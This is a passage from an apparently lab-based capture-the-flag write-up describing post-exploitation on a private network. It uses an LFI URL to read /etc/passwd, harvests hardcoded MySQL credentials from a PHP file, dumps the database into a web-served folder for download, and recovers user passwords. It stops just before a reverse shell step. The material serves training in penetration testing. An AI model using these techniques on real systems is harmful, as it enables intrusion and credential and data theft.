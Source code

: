 The wonderful thing of ligolo-ng is that it operates in a tunnell mode, like a VPN, so we can directly visit the http services with our browser. Actually we found a copy of the the main site on port 80 and a copy of the dev site on 8080. Again I used the LFI vulnerability to download <b>/etc/passwd</b> file:

    http://192.168.100.1:8080/img.php?file=/etc/passwd
Even this time I didn't find any hashed password in this file. At this point I come back to search useful information on the compromised server (192.168.100.100). I found some interesting files that I missed before:

    www-data@0609ee91af49:/var/www/admin$ ls
    ls
    action_page.php
    assets
    dashboard.php
    db_connect.php
    ...

Looking at the DB connect file we can get the credentials to access mysql DB:

    cat db_connect.php
    <?php
    
    define('DB_SRV', '192.168.100.1');
    define('DB_PASSWD', "!123SecureAdminDashboard321!");
    define('DB_USER', 'admin');
    define('DB_NAME', 'DashboardDB');
    
    $connection = mysqli_connect(DB_SRV, DB_USER, DB_PASSWD, DB_NAME);
    
    if($connection == false){
    
            die("Error: Connection to Database could not be made." . mysqli_connect_error());
    }
    ?>
We can try to dump the DB and proceed to download the file, if you prefer you can use the ligolo tunnel to connect directly from your machine to the remote Mysql host. For sake of learning I dumped the DB to a file, saved in a location we have write permission as user www-data, 
that of course we can reach through HTTP. The following command should be self-explanatory:

    mysqldump -u admin -h 192.168.100.1 -p DashboardDB > /var/www/wordpress/db.sql

Then we can dowload the file hitting the following URL:

    www.holo.live/db.sql

Inspecting the dump file we can found actually another user (that will be useful later) 
    
    ...
    LOCK TABLES `users` WRITE;
    /*!40000 ALTER TABLE `users` DISABLE KEYS */;
    INSERT INTO `users` VALUES ('admin','!123SecureAdminDashboard321!'),('gurag','AAAA');
    ...

Using the same approch we could try to create a reverse shell on the remote host (.1), since mysql user has the permission to write to  /var/www/wordpress location. First we can connect to the remote MySql DBMS:
